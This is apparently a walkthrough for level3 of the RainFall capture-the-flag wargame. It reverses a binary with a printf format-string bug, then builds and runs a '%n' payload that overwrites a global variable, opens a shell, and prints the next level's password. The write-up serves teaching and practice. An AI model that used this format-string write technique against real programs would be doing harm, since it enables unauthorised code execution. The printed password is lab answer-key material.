 
# Source Code

<table  style="margin: 0 auto;">
  <tr>
    <th>Assembly Code</th>
    <th>its equivalent in C Code</th>
  </tr>
  <tr>
    <td>
      <pre><code class="language-asm">
Dump of assembler code for function main:
   0x0804851a <+0>:     push   ebp
   0x0804851b <+1>:     mov    ebp,esp
   0x0804851d <+3>:     and    esp,0xfffffff0
   0x08048520 <+6>:     call   0x80484a4 v
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret

Dump of assembler code for function v:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x218
   0x080484ad <+9>:     mov    eax,ds:0x8049860
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484b6 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484be <+26>:    lea    eax,[ebp-0x208]
   0x080484c4 <+32>:    mov    DWORD PTR [esp],eax
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    eax,[ebp-0x208]
   0x080484d2 <+46>:    mov    DWORD PTR [esp],eax
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    eax,ds:0x804988c
   0x080484df <+59>:    cmp    eax,0x40
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
   0x080484e4 <+64>:    mov    eax,ds:0x8049880
   0x080484e9 <+69>:    mov    edx,eax
   0x080484eb <+71>:    mov    eax,0x8048600
   0x080484f0 <+76>:    mov    DWORD PTR [esp+0xc],edx
   0x080484f4 <+80>:    mov    DWORD PTR [esp+0x8],0xc
   0x080484fc <+88>:    mov    DWORD PTR [esp+0x4],0x1
   0x08048504 <+96>:    mov    DWORD PTR [esp],eax
   0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:   mov    DWORD PTR [esp],0x804860d
   0x08048513 <+111>:   call   0x80483c0 <system@plt>
   0x08048518 <+116>:   leave
   0x08048519 <+117>:   ret
      </code></pre>
    </td>
    <td>
      <pre><code class="language-c">
int m;

int v() {
  char buffer[520];

  fgets(buffer, 512, stdin);
  printf(buffer);
  if (m == 64) {
    fwrite("Wait what?!\n", 1, 0xC, stdout);
    system("/bin/sh");
  }
}

int main() {
  v();
}
      </code></pre>
    </td>
  </tr>
</table>



# Exploring
Our Goal is make `m` variable equal 64 to gain shell access `system("/bin/sh")`.

At first look on the source code, the `main` call `v` function wich read 512 char from stdin, only 512 (less than 520: size of buffer variable `buffer[520]`) and no more a condition `fgets` that's not vulnerable to buffer overflow like previous `gets`.

So, how can we modify the `m` variable ?

We have `printf` that take out input string as format string.

Wait, can this format of printf `printf(buffer)` to be vulnerable ?

---
In printf, the **n** specifier writes the number of characters printed so far into the memory location pointed to by the corresponding argument.

The **$** notation lets you choose which argument to use. For example, in **%6$n**:

- **n** is a specifier that writes the number of characters printed so far into the address provided by that argument.
- **6$** tells printf to use the sixth argument.
---

From the small brief about `printf`, we can modify the `m` with the number of characters printed so far.

# Exploiting

From our observation of this test:
```test
level3@RainFall:~$ ./level3
%010x.%07$x.aaaa
0000000200.61616161.aaaa
```


we see that `aaaa` comes on the 7st arg represented by hex (`61616161`).
So, `aaaa` become the address of `m` variable (little-endian system of course).

```test output
%010x.%07$x.aaaa
  ^^ ^    ^ ^^^^
  1  2    3   4
```
1: will change to 63 (64 - 1,  1 for the dot `.` `2`).

3: will be `n` (the pecifier that writes the number of characters ... ).

4: will change to address of `m` in litte-endian system.

from this asm line `0x080484da <+54>:  mov   eax,ds:0x804988c`, the `m` address is `0x804988c` (`\x8c\x98\x04\x08`: little-endian).

The final payload is:
```payload
%063x.%07$n.\x8c\x98\x04\x08
```

Ok, let's test it.
```
level3@RainFall:~$ (echo -n '%063x.%07$n.'; printf '\x8c\x98\x04\x08\n'; cat) | ./level3
000000000000000000000000000000000000000000000000000000000000200..
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

Great, its work, see you in the next level `level4`.

